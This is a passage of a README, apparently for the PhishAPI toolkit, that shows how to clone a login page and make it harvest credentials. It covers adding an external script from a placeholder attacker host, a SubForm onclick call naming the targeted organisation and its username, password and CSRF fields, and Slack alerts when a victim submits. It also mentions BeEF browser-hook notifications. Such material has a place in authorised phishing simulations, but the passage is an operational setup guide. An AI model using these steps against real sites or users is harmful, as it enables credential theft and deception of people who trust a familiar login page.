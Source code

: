 <p align="center">
<img src="https://i.imgur.com/4MD7kq5.png" width="70%"><br />
<b>Figure 4: Download Automatically Created Source HTML to Host on a Standalone Server</b>
<br/><br/></p>

<p align="center">
<img src="https://i.imgur.com/E7ZLcam.png" width="90%"><br />
<b>Figure 5: The Hosted Site's Contents</b>
<br/><br/></p>

## OR

<b>If you don't wish to use a pre-populated landing page template or one doesn't exist that you would like to use, feel free to create or clone your own.  Simply : </b><br><br>

1) Add the external script source in the `<head>` element

	`<script src="https://YOUR_PHISHAPI_URL.com/APICredentialFormSubmit.js"></script>`

2) Change or add an "onclick" attribute to the submit button for the login form and fill out the arguments

	`<button onclick="SubForm('PhishAPI_URL_HERE','NAME/ID_OF_LOGIN_FORM','PROJECT_NAME','SLACK_BOT_NAME','SLACK_EMOJI','USER_FIELD_NAME/ID','PASS_FIELD_NAME/ID','SOURCE_URL_HERE','CSRF_TOKEN_HERE')">Submit!</button>`
	
	PhishAPI_URL_HERE = https://YOUR_PHISHAPI_URL.com (wherever you're hosting the API)<br />
	NAME/ID_OF_LOGIN_FORM = Whatever the cloned `<form name="">` is set to for the page you cloned<br />
	PROJECT_NAME = Self explanatory. The name of the org/client you're targeting (ex. Walmart)<br />
	SLACK_BOT_NAME = I use "PhishBot"<br />
	SLACK_EMOJI = I use `:fishing_pole_and_fish:`<br />
	USER_FIELD_NAME/ID = Name or ID of the username/email field (ID Preferred) (`<input name="username">` or `<input id="user">`)<br />
	PASS_FIELD_NAME/ID = Name or ID of the password field (ID Preferred) (`<input name="password">` or `<input id="pass">`)<br />
	SOURCE_URL_HERE = Original Address You Cloned the Site From (ex. https://TARGET_URL.com/logon.html)<br />
	CSRF_TOKEN_HERE = Leave blank unless the site you're cloning has a CSRF token.  If so provide the Name/ID here (`<input type="hidden" name="csrf_token" value="XDLKJSDLKJLDKJDLKJFSLKLSF">` so "csrf_token" is what you would use)

4) Sit back and wait for the Slack bot to notify you.  When you want to see the credentials visit https://YOUR-API-HERE/results using your basic auth credentials or click the link in the Slack notification.<br><br>

<p align="center">
<img src="https://i.imgur.com/L8yYRMQ.png" width="70%"><br />
<b>Figure 6: Someone Entered Credentials into the Fake Portal - Slack Alert</b>
<br/><br/></p>

<p align="center">
<img src="https://i.imgur.com/oXy9dEE.png" width="80%"><br />
<b>Figure 7: BeEF Hook Slack Alert (Optional in Case You Want to React Quickly w/ Modules)</b>
<br/><br/></p>
